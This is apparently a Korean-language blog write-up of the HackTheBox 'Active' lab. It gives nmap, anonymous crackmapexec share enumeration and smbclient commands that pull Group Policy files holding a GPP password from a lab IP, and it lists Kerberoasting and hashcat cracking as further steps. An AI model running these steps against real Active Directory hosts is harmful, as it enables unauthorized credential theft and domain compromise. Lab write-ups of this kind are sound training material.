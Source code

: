 ```yaml
---
layout: post
title: HackTheBox Active
subtitle: Acitive Directory 101 Active Exam WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - OSCP
  - AD
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Active/8055314e6eefbca8ad4a0d558519c82c_MD5.jpeg)
crackmapexec enum 검색
smbclient 접속 -> get filename (정책포함 총2개)
passwordcrack (GPP)
해당 계정으로 smb 접근후 플래그 취득
커버로스팅 시도
어드민비번 13100 해쉬캣
smb 

## Target - 10.129.157.36
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.157.36 -oN Active_allport
```
![](/assets/images/posts/2025-03-04-Active/dfa394a533f243c0477ade6179f61f1a_MD5.jpeg)
### SMB Enum
```bash
# 비로그인으로 공유 폴더 권한 보기
crackmapexec smb 10.129.157.36 -u '' -p '' --shares

# Replication 재귀로 다 검색
crackmapexec smb 10.129.157.36 -u '' -p '' --spider Replication --regex .

smbclient //10.129.157.36/Replication
cd active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
get Groups.xml

cd "/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit"
get GptTmpl.inf
```


![](assets/images/posts/2025-03-04-Active/524e9fb03a7a4ff6798850d2e3a43c27_MD5.jpeg)
![](assets/images/posts/2025-03-04-Active/778828c53de98444252797021be11dcd_MD5.jpeg)






## End
![](/assets/images/posts/2025-03-04-Active/de95368feb71382f1c35a682dc077a0b_MD5.jpeg)